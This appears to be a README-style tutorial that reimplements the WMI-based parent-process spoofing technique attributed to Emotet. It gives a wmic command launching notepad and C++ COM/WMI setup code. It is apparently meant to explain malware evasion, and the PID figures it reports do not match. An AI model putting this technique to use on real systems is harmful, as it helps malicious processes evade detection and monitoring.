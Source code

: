 ### Emotet Malware 

Emotet is a malware. Originally intended to steal banking information, its malware has since diversified. It was distributed mainly through phishing campaigns. The malware uses Spearphishing emails with malicious attachments sent to user, Users launch the malicious attachments delivered via spearphishing emails. **WMI was used to execute powershell.exe**.


![image](https://user-images.githubusercontent.com/75935486/153730523-892b9b98-2699-48c9-a919-5bc6d6824673.png)




### **EMOTET PPID Spoofing using WMI:**

we can try do it on CLI with Poweshell but it is more detectable because the command will be logged.

```powershell
PS > wmic /namespace:\\root\CIMV2 path Win32_Process call create "notepad.exe"
```
```json
{
   "ProcessId": 23468
   "ReturnValue": 0
}
```
**ReturnValue** is equal which means that the operation is completed successfully on PID 22396 (ProcessId).

![image](https://user-images.githubusercontent.com/75935486/153729571-33b13901-b82b-4307-95be-1ab6530fdeb0.png)



### **Using COM API and WMI for PPID Spoofing**

First we'll Initializes the COM library using `CoInitializeEx`, after that we will add security levels on COM with `CoInitializeSecurity` and we need to obtain the initial locator to WMI by calling CoCreateInstance.
```cpp
CoInitializeEx(0, COINIT_MULTITHREADED);
CoInitializeSecurity(NULL, -1, NULL, NULL, RPC_C_AUTHN_LEVEL_DEFAULT, RPC_C_IMP_LEVEL_IMPERSONATE, NULL, EOAC_NONE, NULL); // we can replace EOAC_NONE with 0 because EOAC_NONE is equal to 0.
CoCreateInstance(CLSID_WbemLocator, 0, CLSCTX_INPROC_SERVER, IID_IWbemLocator, (LPVOID *) &pLoc);
```

for `CoInitializeSecurity` function, we simply use the default security for WMI.

![image](https://user-images.githubusercontent.com/75935486/153731697-1c4e8611-8449-4ede-86f6-35eba60fcce5.png)


Using the IWbemLocator interface will allow us to obtain the initial namespace pointer to the IWbemServices interface for WMI on a specific host computer. as a reminder, WMI is an implementation of WBEM.

**RPC_C_IMP_LEVEL_IMPERSONATE**

Specifies an impersonation level, which indicates the amount of authority given to the server when it is impersonating the client.
we use this level of impersonation to access local resources such as files. When impersonating at this level, the impersonation token can only be passed across one machine boundary.

**CLSCTX & CLSCTX_INPROC_SERVER**

CLSCTX Values that are used in activation calls to indicate the execution contexts in which an object is to be run.
**CLSCTX_INPROC_SERVER** will make sure that the code that creates and manages the objects of this class is a DLL that runs in the same process as the caller of the function specifying the class context.


once the instance is created we will need `pLoc` which is the pointer to this instance to connect to the local `rootCIMV2` namespace using `ConnectServer()` function. now that we are connected to the namespace, the pointer of this object is `pSvc`. Before accessing the namespace classes, we need to define security for the proxy with the `CoSetProxyBlanket()` function using the `pSvc` object pointer because this object needs a proxy to communicate with the classes.

**CoSetProxyBlanket()** function sets the authentication information that will be used to make calls on the specified proxy.

```cpp
pLoc->ConnectServer(_bstr_t(L"ROOT\\CIMV2"), NULL, NULL, 0, NULL, 0, 0, &pSvc);
CoSetProxyBlanket(pSvc, RPC_C_AUTHN_WINNT, RPC_C_AUTHN_NONE, NULL, RPC_C_AUTHN_LEVEL_CALL, RPC_C_IMP_LEVEL_IMPERSONATE, NULL, EOAC_NONE);
```

After that we can Access to the Class and Specify a Method 

```cpp
	IWbemClassObject * pClass = NULL;
	hres = pSvc->GetObject(ClassName, 0, NULL, &pClass, NULL);
	IWbemClassObject * pInParamsDefinition = NULL;
	hres = pClass->GetMethod(MethodName, 0, &pInParamsDefinition, NULL);
	IWbemClassObject * pClassInstance = NULL;
	hres = pInParamsDefinition->SpawnInstance(0, &pClassInstance);
```

![image](https://user-images.githubusercontent.com/75935486/153729993-192b6fff-e24f-40fa-9756-0f1d2d14339c.png)
